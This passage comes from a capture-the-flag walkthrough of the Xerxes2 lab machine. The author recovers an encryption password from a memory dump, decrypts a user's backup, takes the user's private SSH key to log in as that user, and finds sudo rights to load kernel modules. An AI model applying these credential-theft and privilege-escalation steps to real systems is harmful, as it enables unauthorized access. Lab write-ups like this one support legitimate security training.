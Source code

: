 korenchkin's id_rsa file was being read and then the contents of /dev/fmem were being dumped into /root/xerxesmem, which was them being piped into some service running on port 5555. I suspected that service wrote the contents of xerxesmem into the dump file. 

At first I searched for references to korenchkin's id_rsa key, and I did find an RSA key in there, but it didn't work. So then I started searching for instances of korenchkin and found something more promising:

```
tar -cvf /opt/backup/korenchkin.tar ~/
openssl enc -e -salt -aes-256-cbc -pass pass:c2hvZGFu -in /opt/backup/korenchkin.tar -out /opt/backup/korenchkin.tar.enc
rm /opt/backup/korenchkin.tar
```

The command and password used to encrypt korenchkin.tar was right there, so I simply reversed it to decrypt korenchkin.tar.enc

```
polito@xerxes2:~$ openssl enc -d -salt -aes-256-cbc -pass pass:c2hvZGFu -in /opt/backup/korenchkin.tar.enc -out korenchkin.tar
polito@xerxes2:~$ ls -l korenchkin.tar 
-rw-r--r-- 1 polito polito 10240 Aug  8 21:33 korenchkin.tar
```

The decryption was successful. I unpacked the tarball and extracted korenchkin's private and public SSH keys. 

```
polito@xerxes2:~$ tar xvf korenchkin.tar 
.ssh/id_rsa
.ssh/id_rsa.pub
```

I copied id_rsa over to my machine, renamed it as korenchkin_rsa, and set its permissions to read only so that SSH wouldn't complain. With that done, I logged in as korenchkin using the following command:

```
# ssh -i korenchkin_rsa korenchkin@172.16.229.155
```

### Level 3: Korenchkin

This was the last user on the system, so I assumed that from here on, the goal was to escalate to root. After a bit of poking around, I found that korenchkin had sudo rights to execute /sbin/insmod and /sbin/rmmod. 

```
korenchkin@xerxes2:~$ sudo -l
Matching Defaults entries for korenchkin on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User korenchkin may run the following commands on this host:
    (root) NOPASSWD: /sbin/insmod, (root) /sbin/rmmod
You have new mail in /var/mail/korenchkin
```
